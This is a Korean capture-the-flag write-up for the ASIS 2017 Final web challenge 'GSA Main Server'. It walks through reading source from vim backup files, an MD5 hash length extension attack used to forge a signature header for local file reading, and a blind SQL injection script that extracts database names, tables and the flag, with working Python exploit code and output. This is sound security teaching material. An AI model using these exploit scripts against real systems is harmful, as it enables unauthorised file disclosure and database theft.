 # [WEB] ASIS 2017 FINAL - GSA Main Server

# Description
global security agency main server, it interacts with several GSA's servers. Try to find some holes, and you will be rewarded a flag.

> Host: gsa.mainServer.domain
> Scope: 178.62.34.76:\*
> Hint: Forget the XSS

# Analysis
페이지에 접근하면 단순 뷰페이지로 구성되어 있는거 같다.
http://178.62.34.76/index.php~ 를 요청하면 소스를 볼 수 있다.
소스 중에서 흥미로운 부분은 functions.php이다.
```php
# index.php~
<? require 'functions.php' ?>
```
http://178.62.34.76/functions.php~ 를 들어가면 다시 소스가 보여진다.
(문제 풀때는 아무생각 없이 ~를 넣었는데 자세히 보니 index.php아래에 vim을 사용한 주석같은게 있었던거 같다.)
```php
<?php

// database configuration
include 'configuration.php';

// waf to protect the web attacks
include 'waf.php';

// connection to the database
$mysqli = new mysqli(__DB_HOST, __DB_USER, __DB_PASS, __DB_NAME);

// signature function
// store __KEY in safe place
// __KEY is stored in configuration.php
// do not change the __KEY if you don't know how the system workes, the installation process produces secure 10-chacacter key
function makeSignature($fileName){
    return md5(md5(__KEY) . $fileName);
}

// function to get header data by HTTP packet
function getHeaderData($headers, $name){
    return (array_key_exists($name, $headers))?$headers[$name]:false;
}

// parsing the database resultst
function resultToArray($result){
    $rows = array();
    while($row = $result->fetch_assoc()){
        $rows[] = $row;
    }
    return $rows;
}
```
여기서 흥미로는 함수는 makeSignature이다.
KEY를 md5로 해쉬화 한 후 fineName과 합친 후 다시 md5로 해쉬화 하는데, KEY를 알아낼 수가 없다!

소스 분석은 이정도로하고 아무 게시물이나 들어가서 다운로드를 요청하면 Response헤더에 `X-Signature: beb2e68c628653c72abcb388b078cfda`와 함께, 파일 `file.txt`을 요청한다.
여기서 보이는 X-Signature값이 위의 makeSignature 함수를 통해 만들어진 값이다.
이를 잘 이용하면 될 것 같다.(하하)

# Exploit
1. Hash Length Extension Vulnerability
2. SQLi

## 1. Hash Length Extension Vulnerability
우선 X-Signature를 맞춰줘야 원하는 파일을 다운받을 수 있다.
md5고 해서 엄청 고민하다가 그냥 문뜩 생각났다. Hash Length Extension 공격이..
(대회 끝나고 간만에 다시보니, sha1과 md5 둘다 padding attack(Hash Length extension)에 취약하며, key를 몰라도 hash(key)와 len(key)가 주어지면 hash(key||key')를 구할 수 있다.)
> 참고 : https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks

파이썬 스크립트를 작성하여 해쉬를 만들어 원하는 파일을 요청하게 만들었다.
```python
import hashpumpy
import urllib2
import urllib

url = "http://178.62.34.76/getAttachment/"

origin_sig = "beb2e68c628653c72abcb388b078cfda"
origin_data = "file.txt"
key_length = 32

while 1:
	append_data = '?/'+raw_input("path : ")
	new_signature,new_data  = hashpumpy.hashpump(origin_sig,origin_data,append_data,key_length)
	print 'new signature : %s'%(new_signature)
	print 'new data : %s'%(new_data).encode('hex')
	req = urllib2.Request(url+urllib.quote_plus(urllib.quote_plus(new_data)))
	req.add_header('X-Signature',new_signature)
	res = urllib2.urlopen(req)
	print res.read()
```

이를 이용해 LFI를 했는데, .htaccess파일에서 힌트를 얻을 수 있었다.
```
path : ../../.htaccess
new signature : 77a6762d005d965a0ee69202bd67ca28
new data : 66696c652e7478748000000000000000000000000000000040010000000000003f2f2e2e2f2e2e2f2e6874616363657373
RewriteEngine on

RewriteRule simple-php-captcha.php simple-php-captcha.php [L]

RewriteRule showInformation/(.+) /showInformation.php?informationID=$1 [L]
RewriteRule infoSubmit /informationSubmit.php [L]
RewriteRule notConfirmedInformation/(.+) /notConfirmedInformation.php?informationID=$1 [L]
RewriteRule getAttachment/(.+) /getAttachment.php?fileName=$1 [L]
RewriteRule dataSubmitted/(.+) /dataSubmitted.php [L]
RewriteRule adminer-4.3.1-en.php adminer-4.3.1-en.php [L]

#RewriteRule "searchData/(.+)" "http://gsa.dataStorage.domain/0/portalSearch/?searchURL=$1" [L]
#RewriteRule "API/(.+)" "http://gsa.API.domain/api/$1" [L]

RewriteCond %{REQUEST_FILENAME} !-d
RewriteCond %{REQUEST_FILENAME} !-f
RewriteRule . index.php [L]

RewriteCond %{THE_REQUEST} \.php[\ /?].*HTTP/ [NC]
RewriteRule ^.*$ index.php [L]
```
오 showInformation 또는 notConfirmedInformation에서 인젝션이 나올 거 같이 생겼다.

## 2. SQLi
위에서 발견한 위치 중 notConfirmedInformation에서 SQLi가 발생하였다.
참일 경우 Visited의 값이 오르고, 거짓이면 Visited의 값이 오르지 않는다.(Blind SQLi!!!)
데이터를 뽑아보자!

```python
import urllib2
import urllib
from multiprocessing import Pool
import itertools
import sys

ue = lambda x:urllib.quote(x)
url = "http://178.62.34.76/notConfirmedInformation/"
query = lambda i,j: "115557071-if(substr(lpad(bin(ascii(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))),7,0),%d,1)=1,0,115557071)" % (i, (8-j))
query = lambda i,j: "115557071-if(substr(lpad(bin(ascii(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='gsaportal')),%d,1))),7,0),%d,1)=1,0,115557071)" % (i, (8-j))
query = lambda i,j: "115557071-if(substr(lpad(bin(ascii(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='flag')),%d,1))),7,0),%d,1)=1,0,115557071)" % (i, (8-j))
query = lambda i,j: "115557071-if(substr(lpad(bin(ascii(substr((select(flag)from(flag)),%d,1))),7,0),%d,1)=1,0,115557071)" % (i, (8-j))

if __name__ == '__main__':
    result = bytearray()
    prev_visited = 419
    for i in range(1,80):
        tmp = 0
        for j in range(1,8):
            req = urllib2.Request(url+ query(i,j))
            res = urllib2.urlopen(req)
            visited = int(res.read().split('Visited:</b> ')[1].split('</div>')[0])
            if visited == prev_visited+1:
                prev_visited = visited
                tmp = tmp + (1<<(j-1))
        if tmp==0:
            break
        result.append(chr(tmp))
        sys.stdout.write(chr(tmp))
        sys.stdout.flush()
```

뽑혔다.
flag테이블의 flag컬럼에서 flag를 얻을 수 있다.(flag....)

**ASIS{SQLi_sT1lL_Ex1sT5_G0od_j0B}**
